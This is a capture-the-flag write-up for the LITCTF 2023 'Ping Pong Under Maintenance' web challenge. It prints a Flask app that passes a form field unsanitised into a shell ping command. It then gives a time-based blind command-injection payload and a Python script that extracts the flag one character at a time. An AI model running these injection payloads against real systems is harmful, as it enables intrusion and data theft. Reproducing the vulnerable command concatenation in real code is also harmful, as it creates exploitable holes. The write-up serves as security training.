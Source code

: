 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
author: thanguyen165
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, write-ups]
---
```


* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance](http://34.27.167.72/dl/?web%2FPing+Pong_+Under+Maintenance%2Fping-pong-under-maintenance.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```
{: file="pingpong.py" }

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```
grep "LIT" flag.txt && sleep 5;
```

- If ```grep "LIT" flag.txt``` is correct, aka string ```"LIT"``` is in ```flag.txt``` content, the second command ```sleep 5``` will be executed, and it takes more time to return response.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)

```
{: file="solution.py" }

The flag is
```
LITCTF{c4refu1_fr}
```